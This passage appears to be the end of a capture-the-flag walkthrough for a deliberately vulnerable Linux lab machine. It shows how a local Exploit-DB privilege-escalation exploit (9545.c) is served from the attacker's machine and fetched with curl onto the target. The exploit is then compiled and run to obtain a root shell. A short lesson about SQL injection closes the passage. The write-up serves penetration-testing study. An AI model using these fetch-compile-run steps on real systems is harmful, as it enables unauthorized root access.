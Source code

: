 ```console
cp /usr/share/exploitdb/exploits/linux/local/9545.c .
```

Create a Python Simpleserver to serve the file ([Python3 command](https://gist.github.com/willurd/5720255) is a bit different)

```console
$ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

On the target machine, using our open shell session, run curl to pull the exploit file using
`curl http://10.0.0.12:8080/9545.c --output /tmp/9545.c` command.

Note:
> We're storing the file in the `/tmp` path as sometimes we might encounter permissions issues storing and accessing files in other directories.

Use `ls -la /tmp` to verify the file exists
```console
bash-3.00$ ls -la /tmp
total 32
drwxr-xrwx   4 root   root   4096 Jan 18 19:18 .
drwxr-xr-x  23 root   root   4096 Jan 18 17:02 ..
-rw-r--r--   1 apache apache 9783 Jan 18 19:17 9545.c
drwxrwxrwt   2 root   root   4096 Jan 18 17:03 .font-unix
drwxrwxrwt   2 root   root   4096 Jan 18 17:02 .ICE-unix
```

change directory to `/tmp`, compile, run the exploit and check `whoami` to confirm the exploit worked

```console
bash-3.00$ gcc -o my_exploit 9545.c
9545.c:376:28: warning: no newline at end of file

bash-3.00$ ./my_exploit
sh: no job control in this shell

sh-3.00# whoami
root
```

**Success!**


# Summary
* Browsing web pages manually can be beneficial and we might find interesting and valuable information which automated tools might miss.
* Don't run to SQLmap, simple SQLi payloads might work.